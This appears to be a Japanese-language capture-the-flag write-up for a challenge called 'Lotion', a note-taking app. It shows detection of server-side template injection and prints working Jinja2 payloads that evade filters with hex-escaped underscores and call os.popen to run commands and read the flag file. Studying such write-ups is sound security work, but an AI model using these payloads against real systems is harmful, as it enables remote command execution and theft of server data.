




# Lotion

```txt
I am trying to make my own version of notion named lotion , 
Can you do security check for my app? 
http://chall.nitdgplug.org:30014/
```

## Solution

問題にアクセスすると NoresAPP というメモができるページが表示されます。

試しに適当に入力すると以下のようにメモの内容が表示されるようです。



試しに `{{7*7}}` とメモを追加してみると以下のように表示されました。



この結果から、SSTI があることが推測できます。

そこでいくつかのペイロードを試してみると、以下のペイロード形式で上手く実行させることができました。 [github](https://github.com/payloadbox/ssti-payloads)

```txt
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```



なので `ls -al` コマンドなどを試すと、`secret-note` というディレクトリの中に `flag` というものがあることがわかりました。

これで flag の位置や閲覧権限があることがわかったので、最終的に以下のペイロードで flag を得れます。

payload
```txt
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat secret-note/flag')|attr('read')()}}
```



## Flag

flag : `GLUG{INJECTED_PR3TTY_G00D_HUH}`
